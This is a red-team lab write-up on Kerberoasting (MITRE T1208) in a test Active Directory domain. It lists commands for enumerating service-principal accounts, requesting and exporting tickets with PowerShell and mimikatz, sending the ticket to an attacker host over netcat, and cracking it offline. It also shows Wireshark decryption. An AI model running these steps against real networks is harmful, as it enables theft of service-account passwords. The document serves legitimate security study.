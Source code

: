 ```yaml
---
description: Credential Access
---
```


# T1208: Kerberoasting

This lab explores an attack that allows any domain user to request kerberos tickets from TGS that are encrypted with NTLM hash of the plaintext password of a domain user account that is used as a service account \(for example for running an IIS service\) and crack them offline avoiding lockouts.

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set \(important piece for kerberoasting - only user accounts with that property set are most likely susceptible to kerberoasting\):

![](../.gitbook/assets/kerberoast-principalname.png)

Attacker setting up an nc listener to receive a hash for cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
nc -lvp 443 > kerberoast.bin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Extracting the Ticket

Attacker enumerating user accounts with `serverPrincipalName` set:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-enumeration.png)

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```text
 setspn -T offense -Q */*
```

![](../.gitbook/assets/kerberoast-setspn%20%281%29.png)

Attacker requesting a kerberos ticker for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-kerberos-token.png)

Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # kerberos::list /export
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-exported-kerberos-tickets.png)

Attacker sends the exported service ticket to attacking machine for offline cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Cracking the Ticket

Attacker brute forces the password of the service ticket:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-cracked.png)

## Observations

Below is the screenshot showing a request being sent to the `Ticket Granting Service` \(TGS\) for the service with a servicePrincipalName `HTTP/dc-mantvydas.offense.local` :

![](../.gitbook/assets/kerberoast-tgs-req.png)

Below is the response from the TGS for the user `spotless` \(we initiated this attack from offense\spotless\) which contains the encrypted \(RC4\) kerberos ticket \(server part\) to access the `HTTP/dc-mantvydas.offense.local` service. It is the same ticket we cracked earlier with [tgsrepcrack.py](t1208-kerberoasting.md#cracking-the-ticket):

![](../.gitbook/assets/kerberoast-tgs-res.png)

Out of curiosity, let's decrypt the kerberos ticket since we have the password the ticket was encrypted with.

Creating a kerberos keytab file for use in wireshark:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```bash
root@~# ktutil 
ktutil:  add_entry -password -p HTTP/iis_svc@dc-mantvydas.offense.local -k 1 -e arcfour-hmac-md5
Password for HTTP/iis_svc@dc-mantvydas.offense.local: 
ktutil:  wkt /root/tools/iis.keytab
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/kerberoast-creating-keytab.png)

Adding the keytab to wireshark:

![](../.gitbook/assets/kerberoast-wireshark-keytab.png)

Note how the ticket's previously encrypted piece is now in plain text and we can see information pertinent to the requested ticket for a service `HTTP/dc-mantvydas.offense.local` :

![](../.gitbook/assets/kerberoast-decrypted.png)

### tgsrepcrack.py

Looking inside the code and adding a couple of print statements in key areas of the script, we can see that the password from the dictionary \(`Passw0rd`\) initially gets converted into an NTLM \(`K0`\) hash, then another key `K1` is derived from the initial hash and a message type, yet another key `K2` is derived from K1 and an MD5 digest of the encrypted data. Key `K2` is the actual key used to decrypt the encrypted ticket data:

![](../.gitbook/assets/kerberoast-crackstation.png)

![](../.gitbook/assets/kerberoast-printstatements.png)

I did not have to, but I also used an online RC4 decryptor tool to confirm the above findings:

![](../.gitbook/assets/kerberoast-decryptedonline.png)

{% file src="../.gitbook/assets/kerberoast.pcap" caption="kerberoast.pcap" %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1208\",\"type\":\"link\",\"title\":\"Kerberoasting - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://github.com/nidem/kerberoast\",\"type\":\"link\",\"title\":\"nidem/kerberoast\",\"description\":\"Contribute to kerberoast development by creating an account on Github.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://github.com/fluidicon.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://avatars3.githubusercontent.com/u/4877511?s=400&v=4\",\"width\":365,\"height\":365,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/\",\"type\":\"link\",\"title\":\"Extracting Service Account Passwords with Kerberoasting \| Insider Threat\",\"description\":\"Kerberoasting is effective for extracting service account credentials from Active Directory without needing elevated rights or causing domain traffic.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2016/06/cropped-Logo\_STEALTHbits\_Orb\_Blue\_250x250-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2017/05/Blog2-banner-Extract-Service-Account-Passwords-Kerberoasting1024x326.jpg\",\"width\":1024,\"height\":326,\"aspectRatio\":0.318359375}}" %}

{% embed data="{\"url\":\"http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/\",\"type\":\"link\",\"title\":\"Kerberoasting Without Mimikatz\",\"description\":\"Just about two years ago, Tim Medin presented a new attack technique he christened “Kerberoasting”. While we didn’t realize the full implications of this at the time of release, t…\",\"icon\":{\"type\":\"icon\",\"url\":\"http://www.harmj0y.net/blog/wp-content/uploads/2017/05/cropped-specter-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"http://www.harmj0y.net/blog/wp-content/uploads/2016/10/invoke\_kerberoast\_empire-1024x520.png\",\"width\":640,\"height\":325,\"aspectRatio\":0.5078125}}" %}

{% embed data="{\"url\":\"https://blog.xpnsec.com/kerberos-attacks-part-1/\",\"type\":\"link\",\"title\":\"Kerberos AD Attacks - Kerberoasting\",\"description\":\"Recently I\'ve been trying to make sure that my redteam knowledge is up to date, exploring many of the advancements in Active Directory Kerberos attacks... and there have been quite a few! I finally found some free time this week to roll up my sleeves and dig into the internals\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.xpnsec.com/assets/favicon/android-icon-192x192.png?v=94d6be4395\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.xpnsec.com/content/images/2017/09/cerberos-1.jpg\",\"width\":615,\"height\":539,\"aspectRatio\":0.8764227642276423}}" %}

{% embed data="{\"url\":\"http://rc4.online-domain-tools.com/\",\"type\":\"link\",\"title\":\"RC4 Encryption – Easily encrypt or decrypt strings or files\",\"description\":\"Online interface for RC4 encryption algorithm, also known as ARCFOUR, an algorithm that is used within popular cryptographic protocols such as SSL or WEP.\",\"icon\":{\"type\":\"icon\",\"url\":\"http://online-domain-tools.com/images/apple-touch-icon.png\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://crackstation.net/\",\"type\":\"link\",\"title\":\"CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.\",\"description\":\"Crackstation is the most effective hash cracking service. We crack: MD5, SHA1, SHA2, WPA, and much more...\",\"icon\":{\"type\":\"icon\",\"url\":\"https://crackstation.net/favicon.ico\",\"aspectRatio\":0}}" %}

